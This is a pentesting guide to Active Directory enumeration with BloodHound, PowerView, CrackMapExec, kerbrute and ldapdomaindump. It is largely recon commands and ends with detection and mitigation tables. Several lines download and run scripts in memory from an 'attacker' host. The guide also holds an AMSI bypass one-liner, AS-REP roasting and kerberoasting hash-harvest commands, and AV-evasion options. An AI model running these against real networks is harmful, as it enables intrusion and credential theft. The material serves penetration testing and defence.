

# Active Directory Enumeration

> **AD enumeration is the process of systematically mapping all objects, relationships, and misconfigurations in a domain — building the blueprint for your attack path.**

---

## 🧠 What Is It?

Think of it like being a detective who just arrived in a new city. Before you do anything, you need to know the lay of the land: who are the important people, what buildings do they control, what are the connections between them, and where are the guard dogs sleeping.

In AD pentesting, enumeration answers:
- Who has privileged access?
- What machines exist and what OS do they run?
- Which accounts are misconfigured (no pre-auth, have SPNs, weak ACLs)?
- Who can do what to whom (ACL graph)?
- What is the fastest path to Domain Admin?

**The output of thorough enumeration literally draws you the map to DA.**

---

## 🏗️ How It Works

Enumeration uses legitimate AD query protocols (LDAP, Kerberos, SMB, RPC) to extract information. Most AD queries require valid credentials, but several techniques work without any.

### Enumeration Phases

```
Phase 1: Unauthenticated
  ├── LDAP null bind / anonymous queries
  ├── SMB null session (legacy, mostly patched)
  ├── Kerberos user enumeration (PREAUTH_REQUIRED vs WRONG_PASSWORD)
  ├── DNS zone transfers, SRV records
  └── RPC null session (rpcclient)

Phase 2: Authenticated (any domain user)
  ├── BloodHound / SharpHound (full collection)
  ├── PowerView comprehensive cmdlets
  ├── ldapdomaindump (HTML reports)
  ├── CrackMapExec enumeration modules
  └── ADExplorer (GUI)
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Enumeration Without Credentials

#### LDAP Null Bind / Anonymous Queries

Many DCs allow anonymous LDAP queries (especially older environments). Even if full anonymous access is disabled, the **RootDSE** (base of the directory) is always readable:

```bash
# Query RootDSE (always works, no creds)
ldapsearch -H ldap://10.0.0.1 -x -b "" -s base "(objectClass=*)" \
  namingContexts defaultNamingContext \
  dnsHostName \
  ldapServiceName \
  supportedSASLMechanisms \
  isGlobalCatalogReady

# Full anonymous bind attempt
ldapsearch -H ldap://10.0.0.1 -x -b "DC=corp,DC=local" "(objectClass=*)"

# Try anonymous bind for users
ldapsearch -H ldap://10.0.0.1 -x -b "CN=Users,DC=corp,DC=local" \
  "(objectClass=user)" sAMAccountName

# Over Global Catalog (forest-wide, port 3268)
ldapsearch -H ldap://10.0.0.1:3268 -x -b "" "(objectClass=user)" \
  sAMAccountName userPrincipalName
```

#### SMB Null Session Enumeration

```bash
# Test null session
smbclient -L //10.0.0.1 -N
smbclient //10.0.0.1/IPC$ -N

# enum4linux (wraps smbclient, rpcclient, net)
enum4linux -a 10.0.0.1
enum4linux -U 10.0.0.1   # users only
enum4linux -G 10.0.0.1   # groups only
enum4linux -S 10.0.0.1   # shares

# enum4linux-ng (modern rewrite, more reliable)
enum4linux-ng -A 10.0.0.1
enum4linux-ng -oA output_dir 10.0.0.1

# crackmapexec null auth
crackmapexec smb 10.0.0.1 -u '' -p ''
crackmapexec smb 10.0.0.1 -u 'guest' -p ''
```

#### RPC Null Session

```bash
# Connect with null credentials
rpcclient -U "" -N 10.0.0.1

# Inside rpcclient:
rpcclient $> srvinfo          # Server info
rpcclient $> enumdomusers     # List users (if allowed)
rpcclient $> enumdomgroups    # List groups
rpcclient $> querydominfo     # Domain info (lockout threshold!)
rpcclient $> getdompwinfo     # Password policy
rpcclient $> enumprinters     # Printers (useful)
rpcclient $> netshareenum     # Shares

# Get user info by RID cycling
rpcclient $> queryuser 0x1f4  # RID 500 = Administrator
rpcclient $> queryuser 0x1f5  # RID 501 = Guest

# RID cycling (brute-force user enumeration)
for rid in $(seq 500 1200); do
  rpcclient -N -U "" 10.0.0.1 -c "queryuser 0x$(printf '%x' $rid)" 2>/dev/null |
  grep -i "User Name" | awk '{print $3}'
done
```

#### DNS Enumeration

```bash
# Zone transfer attempt
dig axfr corp.local @10.0.0.1
host -t axfr corp.local 10.0.0.1

# SRV records (DC discovery)
nslookup -type=SRV _ldap._tcp.corp.local 10.0.0.1
nslookup -type=SRV _kerberos._tcp.corp.local 10.0.0.1
nslookup -type=SRV _ldap._tcp.dc._msdcs.corp.local 10.0.0.1
dig SRV _ldap._tcp.corp.local @10.0.0.1

# All DNS records brute-force
dnsrecon -d corp.local -t brt -D /usr/share/dnsrecon/namelist.txt
dnsx -d corp.local -w /usr/share/wordlists/dns.txt

# Find all DCs
nslookup -type=SRV _ldap._tcp.dc._msdcs.corp.local
```

#### Kerberos User Enumeration (No Credentials!)

Kerberos AS-REQ responses differ based on whether the username exists:
- Valid user, wrong password → `KRB5KDC_ERR_PREAUTH_REQUIRED` (user exists!)
- Invalid user → `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN`

```bash
# kerbrute - fast Kerberos user enumeration
kerbrute userenum -d corp.local --dc 10.0.0.1 \
  /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt

# From results - check for AS-REP roastable (pre-auth disabled)
kerbrute userenum -d corp.local --dc 10.0.0.1 users.txt --downgrade

# Impacket (slower)
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt \
  -format hashcat -dc-ip 10.0.0.1
```

---

### Enumeration With Credentials

#### BloodHound / SharpHound — Complete Guide

BloodHound is a graph-based AD attack path analysis tool. It models AD relationships as a graph and finds attack paths that are impossible to spot manually.

**Data collection with SharpHound:**

```powershell
# Basic collection (all methods)
.\SharpHound.exe -c All --domain corp.local

# Specific collection methods
.\SharpHound.exe -c DCOnly          # Only DC data (stealthy)
.\SharpHound.exe -c ComputerOnly    # Computer and session data
.\SharpHound.exe -c Group           # Group memberships
.\SharpHound.exe -c LocalAdmin      # Local admin rights
.\SharpHound.exe -c Session         # Who is logged on where
.\SharpHound.exe -c Trusts          # Domain trusts
.\SharpHound.exe -c ACL             # ACL data
.\SharpHound.exe -c ObjectProps     # Object properties
.\SharpHound.exe -c RDP,DCOM,PSRemote  # Remote access rights

# Stealth options
.\SharpHound.exe -c All --ExcludeDCs    # Avoid querying DCs directly
.\SharpHound.exe -c All --Stealth       # Only collect from DCs
.\SharpHound.exe -c All --RandomizeFilenames --EncryptZip

# Run from memory (bypass AV)
IEX (New-Object Net.WebClient).DownloadString('http://attacker/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All -Domain corp.local

# Specific DC
.\SharpHound.exe -c All --DomainController 10.0.0.1 --LdapUsername user --LdapPassword pass

# Output
.\SharpHound.exe -c All --OutputDirectory C:\temp --OutputPrefix engagement01
```

**BloodHound Python (from Linux):**

```bash
# Install
pip3 install bloodhound

# Full collection
bloodhound-python -u user -p 'Password123!' -d corp.local \
  -c All -ns 10.0.0.1

# With hash
bloodhound-python -u user --hashes :NTHASH -d corp.local \
  -c All -ns 10.0.0.1

# Specific collection methods
bloodhound-python -u user -p pass -d corp.local \
  -c Group,LocalAdmin,Session,Trusts,Default,DCOnly \
  --dns-tcp -ns 10.0.0.1

# Output to specific directory
bloodhound-python -u user -p pass -d corp.local \
  -c All --zip -o /tmp/bhdata/
```

**Importing into BloodHound:**
```bash
# Start BloodHound Community Edition with Docker
docker run -p 8080:8080 \
  -e neo4j_passwords="neo4j:Password1" \
  specterops/bloodhound

# Or install standalone
# Navigate to http://localhost:8080
# Upload ZIP file from SharpHound/bloodhound-python
```

**Pre-built BloodHound Queries:**

| Query | Purpose |
|---|---|
| Find All Domain Admins | Shows all DA members |
| Find Shortest Paths to Domain Admins | Critical — the main query |
| Find Principals with DCSync Rights | DCSync path |
| Find Computers with Unconstrained Delegation | UCD attack targets |
| Find All Paths from Owned Principals | Custom starting point |
| Shortest Path from Owned to Domain | After marking owned nodes |
| Find AS-REP Roastable Users | No pre-auth accounts |
| Find Kerberoastable Users | SPN accounts |
| Find Computers where Domain Users can RDP | Lateral movement |

**Custom Cypher Queries (paste into BloodHound Raw Query):**

```cypher
// All paths from user to Domain Admin
MATCH p=shortestPath((u:User {name:"USER@CORP.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}))
RETURN p

// Find users with DCSync rights
MATCH (u)-[:GetChanges|GetChangesAll*1..]->(d:Domain)
RETURN u.name, d.name

// Find computers with unconstrained delegation (non-DCs)
MATCH (c:Computer {unconstraineddelegation:true})
WHERE NOT c.name STARTS WITH "DC"
RETURN c.name

// Find all users with GenericAll on other users
MATCH (u1:User)-[:GenericAll]->(u2:User)
RETURN u1.name, u2.name

// Find paths through local admin rights
MATCH p=(u:User)-[:AdminTo*1..]->(c:Computer)
RETURN p LIMIT 20

// Find kerberoastable users in DA path
MATCH (u:User {hasspn:true})
MATCH p=shortestPath((u)-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}))
RETURN u.name, length(p)
ORDER BY length(p)

// All computers you are local admin on (mark user as owned first)
MATCH (u:User {owned:true})-[:AdminTo]->(c:Computer)
RETURN c.name

// Find service accounts (SPN) not in protected groups
MATCH (u:User {hasspn:true})
WHERE NOT u.name IN ["KRBTGT@CORP.LOCAL"]
RETURN u.name, u.serviceprincipalnames

// Find ACL paths from owned users to high value targets
MATCH p=shortestPath((u:User {owned:true})-[r:GenericAll|GenericWrite|WriteOwner|WriteDACL|ForceChangePassword|AllExtendedRights*1..]->(t))
WHERE t.highvalue = true
RETURN p

// Find all foreign group memberships (cross-domain)
MATCH (u:User)-[:MemberOf]->(g:Group)
WHERE u.domain <> g.domain
RETURN u.name, g.name

// Find sessions of high-value users on accessible computers
MATCH (u:User)-[:HasSession]->(c:Computer)
WHERE u.admincount = true
MATCH (me:User {name:"LOWPRIV@CORP.LOCAL"})-[:AdminTo]->(c)
RETURN u.name, c.name

// Find GPOs you can modify that apply to high-value OUs
MATCH p=(u:User {name:"ATTACKER@CORP.LOCAL"})-[r:GenericWrite|AllExtendedRights|GenericAll]->(g:GPO)-[:GpLink]->(ou:OU)
RETURN p
```

---

#### PowerView — Complete Command Reference

PowerView is a PowerShell module for AD enumeration. Load it:

```powershell
# Load from disk
Import-Module .\PowerView.ps1

# Load from memory (bypass AV/AMSI)
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1')

# AMSI bypass first
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**Domain/Forest Basics:**

```powershell
# Domain information
Get-Domain
Get-Domain -Domain subsidiary.local   # specific domain
Get-DomainController
Get-DomainController -Domain corp.local

# Forest information
Get-Forest
Get-ForestDomain
Get-ForestGlobalCatalog

# Trusts
Get-DomainTrust
Get-DomainTrust -Domain corp.local
Get-ForestTrust
```

**User Enumeration (30+ queries):**

```powershell
# All users
Get-DomainUser
Get-DomainUser -Domain corp.local

# Specific properties
Get-DomainUser -Properties samaccountname,description,memberof,admincount,serviceprincipalname,useraccountcontrol,lastlogon,pwdlastset

# Find users with passwords in description field
Get-DomainUser -Properties samaccountname,description | Where-Object {$_.description -ne $null}

# All admin users (adminCount=1)
Get-DomainUser -AdminCount

# Find disabled accounts
Get-DomainUser -UACFilter ACCOUNTDISABLE

# Find users with passwords not required
Get-DomainUser -UACFilter PASSWD_NOTREQD

# AS-REP Roastable (pre-auth disabled) - CRITICAL
Get-DomainUser -UACFilter DONT_REQ_PREAUTH

# Kerberoastable users (have SPN)
Get-DomainUser -SPN
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname,memberof

# Unconstrained delegation users
Get-DomainUser -TrustedToAuth

# Constrained delegation users
Get-DomainUser | Where-Object {$_."msds-allowedtodelegateto" -ne $null} |
  Select-Object samaccountname,"msds-allowedtodelegateto"

# Find specific user
Get-DomainUser -Identity jsmith
Get-DomainUser -Identity jsmith -Properties *

# Users who haven't logged in for 90 days (stale accounts)
$cutoff = (Get-Date).AddDays(-90)
Get-DomainUser -Properties samaccountname,lastlogontimestamp |
  Where-Object {[datetime]::FromFileTime($_."lastlogontimestamp") -lt $cutoff}

# Find all users in specific OU
Get-DomainUser -SearchBase "OU=ServiceAccounts,DC=corp,DC=local"

# Find users with password not changed in 1 year
$cutoff = (Get-Date).AddDays(-365)
Get-DomainUser -Properties samaccountname,pwdlastset |
  Where-Object {[datetime]::FromFileTime($_.pwdlastset) -lt $cutoff}
```

**Group Enumeration:**

```powershell
# All groups
Get-DomainGroup

# Members of specific group
Get-DomainGroupMember -Identity "Domain Admins"
Get-DomainGroupMember -Identity "Domain Admins" -Recurse  # nested membership

# All groups a user is in (including nested)
Get-DomainGroup -UserName jsmith
Get-DomainUser -Identity jsmith | Select-Object -ExpandProperty memberof

# Local groups on remote machine
Get-NetLocalGroup -ComputerName srv01
Get-NetLocalGroupMember -ComputerName srv01 -GroupName Administrators

# Find machines where a user is local admin
Get-DomainGPOUserLocalGroupMapping -Identity jsmith
```

**Computer Enumeration:**

```powershell
# All computers
Get-DomainComputer
Get-DomainComputer -Properties name,operatingsystem,lastlogon,dnshostname

# Find specific OS
Get-DomainComputer -OperatingSystem "*Server 2016*"
Get-DomainComputer -OperatingSystem "*Windows 10*"
Get-DomainComputer -OperatingSystem "*2003*"  # ancient/vulnerable!

# Find DCs
Get-DomainController

# Unconstrained delegation computers (high value)
Get-DomainComputer -UnconstrainedDelegation |
  Select-Object name,dnshostname,operatingsystem

# Constrained delegation computers
Get-DomainComputer -TrustedToAuth |
  Select-Object name,"msds-allowedtodelegateto"

# LAPS deployed? (non-null ms-Mcs-AdmPwd)
Get-DomainComputer -Properties name,ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime |
  Where-Object {$_."ms-mcs-admpwd" -ne $null}

# Find computers in specific OU
Get-DomainComputer -SearchBase "OU=Servers,DC=corp,DC=local"
```

**OU and GPO Enumeration:**

```powershell
# All OUs
Get-DomainOU
Get-DomainOU | Select-Object name,distinguishedname,gplink

# Computers in specific OU
Get-DomainComputer -SearchBase (Get-DomainOU -Identity IT).distinguishedname

# All GPOs
Get-DomainGPO
Get-DomainGPO | Select-Object displayname,gpcfilesyspath,objectguid

# GPO by name
Get-DomainGPO -Identity "Default Domain Policy"

# Find GPOs with interesting settings
Get-DomainGPOLocalGroup  # GPOs that set local group membership
Get-DomainGPOComputerLocalGroupMapping -ComputerIdentity srv01  # who is admin on srv01 via GPO
Get-DomainGPOUserLocalGroupMapping -Identity jsmith  # where is jsmith local admin via GPO
```

**ACL Enumeration (Critical for Privilege Escalation):**

```powershell
# ACLs on Domain Admins group
Get-ObjectAcl -Identity "Domain Admins" -ResolveGUIDs |
  Where-Object {$_.ActiveDirectoryRights -match "Write|GenericAll|WriteOwner|WriteDACL"}

# ACLs on a user
Get-ObjectAcl -Identity jsmith -ResolveGUIDs

# Find ALL interesting ACEs in domain (dangerous ACLs)
Find-InterestingDomainAcl -ResolveGUIDs

# Filter interesting rights only
Find-InterestingDomainAcl -ResolveGUIDs | 
  Where-Object {$_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteDACL|WriteOwner|AllExtendedRights|ForceChangePassword"} |
  Select-Object ObjectDN, ActiveDirectoryRights, SecurityIdentifier

# Resolve SIDs in ACL output
Find-InterestingDomainAcl -ResolveGUIDs | 
  ForEach-Object {
    $sid = $_.SecurityIdentifier
    $obj = Get-DomainObject -Identity $sid -Properties samaccountname
    [PSCustomObject]@{
      ObjectDN = $_.ObjectDN
      Right    = $_.ActiveDirectoryRights
      Subject  = $obj.samaccountname
    }
  }

# ACLs on AdminSDHolder
Get-ObjectAcl -Identity "AdminSDHolder" -ResolveGUIDs |
  Where-Object {$_.ActiveDirectoryRights -match "Write|GenericAll"}

# Find who has DCSync rights
Get-ObjectAcl -Identity "DC=corp,DC=local" -ResolveGUIDs |
  Where-Object {$_.ObjectAceType -match "DS-Replication-Get-Changes"}
```

**Session and Login Enumeration:**

```powershell
# Who is logged on to which computer
Get-NetLoggedon -ComputerName DC01
Get-NetLoggedon -ComputerName srv01

# Active sessions on DC
Get-NetSession -ComputerName DC01

# Find machines where domain admins are logged in
Find-DomainUserLocation -UserGroupIdentity "Domain Admins"

# Find all machines a user has sessions on
Find-DomainUserLocation -UserIdentity jsmith

# Check local admin access across network
Find-LocalAdminAccess
Find-LocalAdminAccess -ComputerName (Get-DomainComputer -Properties dnshostname).dnshostname

# Find shares (may contain creds)
Find-DomainShare
Find-DomainShare -ComputerName srv01
Invoke-ShareFinder -ExcludeStandard -CheckShareAccess

# Find interesting files in accessible shares
Find-InterestingDomainShareFile -Include *.ps1,*.bat,*.vbs,*.config,*.ini,*.xml
```

---

#### ldapdomaindump

Dumps AD to HTML/JSON reports — excellent for client reports.

```bash
# Full dump
ldapdomaindump -u 'corp\user' -p 'Password123!' ldap://10.0.0.1

# Output to directory
ldapdomaindump -u 'corp\user' -p 'Password123!' \
  -o /tmp/ldd_output/ ldap://10.0.0.1

# LDAPS
ldapdomaindump -u 'corp\user' -p 'Password123!' ldaps://10.0.0.1

# Using hash
ldapdomaindump -u 'corp\user' --at-hash NTHASH ldap://10.0.0.1

# Files generated:
# domain_users.html       - All users with attributes
# domain_groups.html      - All groups and members
# domain_computers.html   - All computers
# domain_policy.html      - Password/lockout policy
# domain_trusts.html      - Trust relationships
# domain_users_by_group.html
```

---

#### CrackMapExec Enumeration

```bash
# Basic info (no auth)
crackmapexec smb 10.0.0.1

# Users enumeration
crackmapexec smb 10.0.0.1 -u user -p pass --users
crackmapexec smb 10.0.0.1 -u user -p pass --groups
crackmapexec smb 10.0.0.1 -u user -p pass --computers
crackmapexec smb 10.0.0.1 -u user -p pass --shares

# Logged-on users
crackmapexec smb 10.0.0.1 -u user -p pass --loggedon-users
crackmapexec smb 10.0.0.1 -u user -p pass --sessions

# Password policy
crackmapexec smb 10.0.0.1 -u user -p pass --pass-pol

# Enumerate all hosts in subnet
crackmapexec smb 10.0.0.0/24

# RID brute (user enumeration)
crackmapexec smb 10.0.0.1 -u user -p pass --rid-brute

# LDAP enumeration
crackmapexec ldap 10.0.0.1 -u user -p pass --trusted-for-delegation
crackmapexec ldap 10.0.0.1 -u user -p pass --password-not-required
crackmapexec ldap 10.0.0.1 -u user -p pass --admin-count
crackmapexec ldap 10.0.0.1 -u user -p pass --get-dn
crackmapexec ldap 10.0.0.1 -u user -p pass --asreproast asrep.txt
crackmapexec ldap 10.0.0.1 -u user -p pass --kerberoasting kerb.txt
crackmapexec ldap 10.0.0.1 -u user -p pass --users --json output.json
```

---

### Comprehensive Enumeration Checklist

```
DOMAIN BASICS
[ ] Domain name, SID, functional level
[ ] Domain controllers (name, IP, OS)
[ ] FSMO role holders
[ ] Domain trusts (direction, type)
[ ] Password/lockout policy (critical before spraying!)
[ ] Fine-grained password policies

HIGH-VALUE ACCOUNTS
[ ] All Domain Admins (direct + nested)
[ ] All Enterprise Admins
[ ] All Schema Admins
[ ] All Backup Operators
[ ] All Account Operators
[ ] All DnsAdmins
[ ] All service accounts (sAMAccountName containing 'svc','service','sa_')
[ ] All accounts with adminCount=1
[ ] Accounts with descriptions containing passwords

ATTACK SURFACE ACCOUNTS
[ ] AS-REP roastable (DONT_REQ_PREAUTH)
[ ] Kerberoastable (have SPN, enabled)
[ ] Unconstrained delegation accounts/computers
[ ] Constrained delegation accounts/computers
[ ] Accounts with password never expires
[ ] Stale accounts (no login in 90+ days)
[ ] Accounts with passwords not required

ACL/PERMISSION PATHS
[ ] GenericAll/GenericWrite on Domain Admins
[ ] WriteDACL on sensitive objects
[ ] WriteOwner on sensitive objects
[ ] ForceChangePassword rights
[ ] DCSync rights (DS-Replication-Get-Changes-All)
[ ] WriteProperty on AdminSDHolder
[ ] GenericAll/Write on any OU containing DA/admins

COMPUTER OBJECTS
[ ] All computers (OS, last logon)
[ ] Computers with unconstrained delegation
[ ] Computers with constrained delegation
[ ] LAPS deployed? (which OUs)
[ ] Domain controllers
[ ] Exchange servers (high privilege in AD)
[ ] SQL servers (often have SPNs)

SESSIONS & ADMIN ACCESS
[ ] Where are Domain Admins logged in?
[ ] Which hosts can current user admin?
[ ] Local admin access via GPO
[ ] RDP access mapping

GPO & POLICY
[ ] List all GPOs with permissions
[ ] Find GPOs with write access
[ ] GPOs with startup/logon scripts
[ ] Group Policy Preferences (cpassword in SYSVOL)

SHARES
[ ] Accessible shares across domain
[ ] SYSVOL scripts with credentials
[ ] Interesting files (*.config, *.ini, *.xml, *.ps1, *.bat)
```

---

## 💥 Exploitation Step-by-Step

### Full Enumeration Workflow

```bash
# STEP 1: Identify domain and DC (from compromised host)
whoami /all
ipconfig /all
# Check for domain in USERDNSDOMAIN env variable

# STEP 2: Map DC
nslookup -type=SRV _ldap._tcp.corp.local

# STEP 3: Check password policy BEFORE spraying
crackmapexec smb 10.0.0.1 -u user -p pass --pass-pol
# Look for: Minimum password length, lockout threshold, lockout duration

# STEP 4: Enumerate users
crackmapexec smb 10.0.0.1 -u user -p pass --users | tee users.txt
# Extract just usernames
grep "\+" users.txt | awk '{print $5}' > usernames.txt

# STEP 5: Find AS-REP roastable accounts (no creds needed for names)
GetNPUsers.py corp.local/ -usersfile usernames.txt -format hashcat \
  -dc-ip 10.0.0.1 -no-pass

# STEP 6: Run BloodHound
bloodhound-python -u user -p pass -d corp.local -c All -ns 10.0.0.1

# STEP 7: Run PowerView (from Windows)
# Load
IEX(New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1')
# Quick wins
Get-DomainUser -UACFilter DONT_REQ_PREAUTH | Select samaccountname
Get-DomainUser -SPN | Select samaccountname,serviceprincipalname
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {
  $_.ActiveDirectoryRights -match "GenericAll|WriteDACL|WriteOwner"}
Get-DomainComputer -UnconstrainedDelegation | Select name

# STEP 8: ldapdomaindump for full picture
ldapdomaindump -u 'corp\user' -p 'pass' -o /tmp/ldd ldap://10.0.0.1
```

---

## 🛠️ Tools

| Tool | Install | Key Use |
|---|---|---|
| **BloodHound** | `docker run specterops/bloodhound` | Attack path graphing |
| **SharpHound** | GitHub releases | BloodHound data collection (Windows) |
| **bloodhound-python** | `pip3 install bloodhound` | BloodHound collection (Linux) |
| **PowerView** | GitHub (PowerSploit) | Comprehensive AD enum via PS |
| **ldapdomaindump** | `pip3 install ldapdomaindump` | Full LDAP dump to HTML |
| **CrackMapExec** | `pip3 install crackmapexec` | Network-wide enum + attacks |
| **kerbrute** | GitHub releases | Kerberos user enum, spraying |
| **enum4linux-ng** | `pip3 install enum4linux-ng` | SMB/RPC enumeration |
| **ldapsearch** | `apt install ldap-utils` | Manual LDAP queries |
| **rpcclient** | `apt install samba-common` | RPC enumeration |
| **ADExplorer** | Sysinternals | GUI AD browser (Windows) |
| **ADRecon** | GitHub | Comprehensive AD report |

```bash
# ADRecon - generates full Excel/HTML report
.\ADRecon.ps1 -GenExcel
.\ADRecon.ps1 -Method ADWS -OutputDir C:\temp\adrecon
```

---

## 🔍 Detection

| Technique | Indicators | Detection Method |
|---|---|---|
| LDAP enumeration | High-volume LDAP queries, queries for all objects | Event 1644, network monitoring |
| BloodHound/SharpHound | Large LDAP query storm in seconds, specific query patterns | SIEM correlation (Falcon, Sentinel) |
| rpcclient enum | SMB connections to IPC$, RPC calls | Event 4624, 5156 |
| PowerView | PowerShell script block logging shows AD queries | Event 4104, 4103 |
| DNS zone transfer | AXFR query to DNS server | DNS debug logging |
| SMB null session | Unauthenticated IPC$ connection | Event 4624 (anonymous logon) |

---

## 🛡️ Mitigation

| Vector | Mitigation |
|---|---|
| LDAP null bind | Disable anonymous LDAP binds in AD settings |
| SMB null session | Disable anonymous access via GPO (`RestrictAnonymous=2`) |
| DNS zone transfer | Restrict zone transfers to authorized DCs only |
| Excessive LDAP queries | Monitor/alert on 1644 events, rate-limit LDAP |
| BloodHound collection | Network detection (query patterns), honeypot accounts |
| Session enumeration | Disable NetSessionEnum for non-admins (KB2871997) |
| Share enumeration | Audit share permissions, remove unnecessary shares |

---

## 📚 References

- [BloodHound Docs](https://bloodhound.readthedocs.io/en/latest/)
- [SharpHound GitHub](https://github.com/BloodHoundAD/SharpHound)
- [PowerView Cheatsheet - HarmJ0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [bloodhound-python GitHub](https://github.com/dirkjanm/BloodHound.py)
- [ldapdomaindump GitHub](https://github.com/dirkjanm/ldapdomaindump)
- [SpecterOps BloodHound Custom Queries](https://github.com/hausec/Bloodhound-Custom-Queries)
- [Cypher Query Library](https://github.com/ly4k/Certipy)
- [AD Security - Recon](https://adsecurity.org/?p=2308)
- [The Hacker Recipes - Recon](https://www.thehacker.recipes/ad/recon)
